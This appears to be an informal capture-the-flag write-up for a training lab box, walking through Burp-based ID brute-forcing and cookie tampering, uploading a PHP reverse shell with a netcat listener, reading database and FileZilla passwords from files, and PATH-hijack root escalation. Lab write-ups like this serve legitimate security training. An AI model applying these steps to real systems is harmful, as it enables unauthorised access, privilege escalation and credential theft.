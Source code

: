 # OOOOOPSSIIIIIIE

## Don't u get bored of the first phase ?

I'm not gonna explain all the time --> **NMAP!**
And amazing, SSH (not pwnbl) and Apache on 80!  

## Some web!

Apparently we can login but no direct link, so let's have a look with a dedicated tool, the one that I love and hate: BURP !!  
In the Target page, we list all pages (after a first request of course) and we can see */cdn-cgi/login/*
And yeah a web form!! Let's use the last Password that wwe get in the previous Box! aka `MEGACORP_4dm1n!!`  
And well down we're in with the login *admin*, not that hard !!!  

## We're not high enough

Apparently there is a Super Admin, and we're not that powerful, let's get those rights!
In the Account page, we notice we have an accessId and burps tells us that effectively there is a cookie with our Id and our role
Let's try to bruteforce the id then !  
In Burp, let's make a request in account, send it to the intruder in burp, go to positions and use only the id in the get method
In the payloads tab add a list of number in the options (1..100/200) and allow every redirections in the options **IN REAL LIFE DONT DO THAT ITS REALLY DANGEROUS**  
Let's start the attack and wait for our response.  

We notice that the length does change sometimes, let's keep an eye on that.  
One is particularly long, the id 30, And in his response we see: *superadmin* !!  
We got it :) with a session id as 86575

## We should'nt be here

Let's try to get in upload by changing the user Cookie by our superadmin userId
Yes we're in !! What a great new isn't it ??
We can now upload files which is a great way to become root and pwn this box !  
Let's get a php reverse shell online and inject right in !! Don't forget to set the userId cookie to 86575

So now that our reverse_shell.php is in the sys let's find it.  
We'll need a new tool for that!!  let's use [dirsearch](https://github.com/maurosoria/dirsearch)
by running `python3 dirsearch.py -u http://10.10.10.28 -e php` we're getting every php file !!

And there are php files under a folder called /uploads !! perfect we're here!  


## Time for some reverse Shell!!  

Listen to the specified port in on shell (nc -lvvnp 4444 for example)
And trigger the reverse shell with another shell!  
`curl http://10.10.10.28/uploads/reverse_shell.php`

Now that we've our shell let's have a look at the connection pages(var/www/html) and particularly the db.php
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

Thank you robert we've your password :))  
Let's *su* to his place

## Some BugTracking

We notice with command `id` that robert is part of the bugtracker group, 
after a find for file dedicated to this group we find */usr/bin/bugtracker*
And with a strings or gdb command shows us that it uses a shell function pretty well known *cat*
The idea here is replacing the default behaviour of cat to something that make us access root.  
Add /tmp/ to the path and create a file called cat, and echo "/bin/sh" in it, add chmod +x and you're ready to go !!
Execute **/usr/bin/bugtracker** once again and boom, it promote u as root.  
Delete the fake cat in tmp and let's now have a look to the file called user.txt and the one under /root/root.txt
The user code is `**CENSORED**`
And the Root is `**CENSORED**`


## We have to finish the job

If we go already, we're gonna be baddly blocked on the next box !! (as i've been)
Under the root folder and the hidden *.config* folder, there is a filezilla folder  
This file contains informations really interesting !  
Such as a User and a Password !! Let's keep near us !!!  

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
```